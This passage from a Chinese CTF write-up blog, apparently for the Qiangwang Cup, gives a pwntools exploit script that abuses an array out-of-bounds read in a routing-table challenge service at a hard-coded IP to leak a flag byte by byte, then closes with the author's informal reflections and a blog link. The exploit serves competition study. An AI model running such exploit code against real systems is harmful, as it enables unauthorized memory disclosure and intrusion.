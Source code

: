 end 数组溢出读取 secret

```bash
from pwn import *

context.log_level = 'debug'

def p(idx):
    a = remote('47.104.150.173', 1337)
    a.sendlineafter(b'4. Quit.', b'1')
    a.sendlineafter(b'IP:', b'0.0.0.0')
    a.sendlineafter(b'hop:', b'0.0.0.0')
    a.sendlineafter(b'4. Quit.', b'1')
    a.sendlineafter(b'IP:', b'255.255.255.255')
    a.sendlineafter(b'hop:', b'0.0.0.0')
    ip = (1 << (32 - idx)) - 1
    str_ip = '.'.join(str((ip >> (24 - i * 8)) & 0xff) for i in range(4)).encode()
    a.sendlineafter(b'4. Quit.', b'1')
    a.sendlineafter(b'IP:', str_ip)
    a.sendlineafter(b'hop:', b'0.0.0.0')
    a.sendlineafter(b'4. Quit.', b'3')
    a.sendlineafter(b'4. Quit.', b'2')
    a.sendlineafter(b'IP:', str_ip)
    a.recvuntil(b'The next hop is ')
    data = a.recvline().decode()
    a.close()
    return ''.join(chr(int(x)) for x in reversed(data.split('.')))

flag = ''
for i in range(16):
    flag += p(i)
    print(flag)
```

## 小结

卷不过卷不过，今年感觉比往年更卷了啊！

md，怎么感觉各种 py，到处都在传 *海鲜市场 强网杯 flag/wp.jpg* ，离谱（

摸了，今年继续水了个强网先锋，感觉还差两道题能进线下的样子

喵喵该跑路了，希望明年学弟学妹们能有机会进线下 ~*（啥时候有学妹*~

顺便，欢迎大师傅们到 [喵喵的博客](https://miaotony.xyz/?utm_source=butian) 逛逛喵~

*溜了溜了喵（*
